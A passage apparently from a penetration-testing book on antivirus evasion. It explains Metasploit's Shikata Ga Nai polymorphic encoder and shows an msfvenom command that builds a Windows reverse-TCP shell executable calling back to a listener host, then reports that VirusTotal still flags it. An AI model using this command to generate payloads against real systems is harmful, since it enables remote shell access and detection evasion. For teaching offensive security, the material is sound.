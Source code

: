 ```bash
 x86/unicode_mixed manual Alpha2 Alphanumeric Unicode Mixedcase Encoder
 x86/unicode_upper manual Alpha2 Alphanumeric Unicode Uppercase Encoder
 x86/xor_dynamic normal Dynamic key XOR Encoder
```

One of the best known of these is the encoder called "Shikata Ga Nai". Technically, the encoder uses a process of using exclusive or of data with a key and then using that data to encode the next and so on \(referred to as a Polymorphic XOR Additive Feedback Encoder\). In practice, it randomizes instruction order, inserts junk code, randomizes spacing between instructions and moves blocks of code around. The end result is that every encoding will be different. We can see this by doing two encodings of the same payload and then comparing the md5sum of each:

```bash
┌─[rin@parrot]─[~/book]
└──╼ $msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.169.0.36 LPORT=80 -b "\x00" -e x86/shikata_ga_nai -f exe -o pass2.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: pass2.exe
┌─[rin@parrot]─[~/book]
└──╼ $md5sum pass1.exe
5a5deacc6e19f2b2256ce864ca071df3 pass1.exe
┌─[rin@parrot]─[~/book]
└──╼ $md5sum pass2.exe
5b3a3360ffd602140a403e72128188b7 pass2.exe
```

An added advantage of Shikata Ga Nai encoding is that it can be used to avoid bytes such as null bytes and carriage return or linefeed that might interfere with the transmission and execution of the shellcode.

Unfortunately, if the results of this are uploaded to VirusTotal, 52 of 70 of the AVs detect it as malware \(Figure 9-1\). Increasing the number of iterations of the encoding doesn't improve the situation with 53 of the AVs detecting it as malware. Microsoft Defender even correctly identifies it as a Metasploit executable.
